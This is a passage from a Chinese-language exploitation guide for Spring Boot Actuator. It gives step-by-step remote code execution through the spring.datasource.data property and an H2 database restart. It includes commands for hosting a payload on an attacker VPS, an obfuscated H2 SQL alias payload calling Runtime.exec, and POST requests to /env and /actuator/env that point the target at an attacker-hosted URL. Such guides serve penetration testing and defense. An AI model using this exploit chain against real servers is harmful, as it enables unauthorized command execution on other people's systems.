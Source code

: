 正常访问：

```
http://127.0.0.1:9098/actuator/env
```



### 0x0C：restart spring.datasource.data h2 database RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 环境中需要存在 `h2database`、`spring-boot-starter-data-jpa` 相关依赖
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 h2 sql 语法内容的文件，会导致程序异常退出



#### 利用方法：

##### 步骤一：托管 sql 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在根目录放置以任意名字的文件，内容为需要执行的 h2 sql 代码，比如：

> ⚠️ 下面payload 中的 'T5' 方法只能 restart 执行一次；后面 restart 需要更换新的方法名称 (如 T6) 和设置新的 sql URL 地址，然后才能被 restart 重新使用，否则第二次 restart 重启应用时会导致程序异常退出

```xml
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','open -a Calculator');
```



##### 步骤二：设置 spring.datasource.data 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.data=http://your-vps-ip/example.sql
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.data","value":"http://your-vps-ip/example.sql"}
```
